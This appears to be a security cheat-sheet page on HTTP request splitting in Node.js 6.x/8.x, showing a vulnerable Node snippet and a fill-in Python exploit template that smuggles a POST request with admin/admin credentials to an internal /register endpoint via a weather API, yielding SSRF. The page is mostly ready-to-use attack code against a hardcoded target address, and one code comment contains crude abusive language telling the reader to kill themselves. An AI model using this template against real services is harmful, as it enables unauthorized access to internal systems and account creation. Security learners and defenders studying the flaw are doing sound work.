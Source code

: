 # HTTP request smuggling
## Node 6.x and 8.x
[Node.js http module](https://translate.google.com/website?sl=auto&tl=en&hl=ar&u=https://github.com/nodejs/node/issues/13296) is vulnerable to this attack and can be abused to trigger an SSRF attack.
- Vulnerable code
```js
const http = require('http') const server = http.createServer((req, res) => { console.log(req.url); res.end(); }); server.listen(8000, function() { http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private', function() { }); });
```
- Python template for abusing
```python
#!/usr/bin/python3
import requests

url = "http://134.209.23.209:31246/api/weather" # Change
proxy = {"http":"http://127.0.0.1:8080"}

"""Smuggled request options"""
Method = "post".upper() # Change
endpoint_to_smuggle = "/register" # Change
host_to_smuggle = "127.0.0.1" # Change
post_data_to_smuggle = f"""username=admin&password=admin""" # Change
post_data_to_smuggle = post_data_to_smuggle.replace(" ", "\u0120").replace("'", "%27").replace('"', "%22")
content_length = len(post_data_to_smuggle)

if Method == "POST":
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) + '\u010D\u010A\u010D\u010A' + post_data_to_smuggle + '\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'
else:
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120/' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) +'\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'

"""Sending payload"""
Post_data = json={'endpoint': '127.0.0.1/'+ smuggle, 'city': 'chengdu', 'country': 'CN'} # Change (must be json to avoid unicode shit or send it by hand with burp then kill yourself)
req = requests.post(url,data=Post_data , proxies=proxy)
print("[@] Status Code: ", req.status_code)
print("[@] Response Body ", req.text)
```
> **References:**
> 1. https://www-rfk-id-au.translate.goog/blog/entry/security-bugs-ssrf-via-request-splitting
> 2. https://hackerone.com/reports/409943

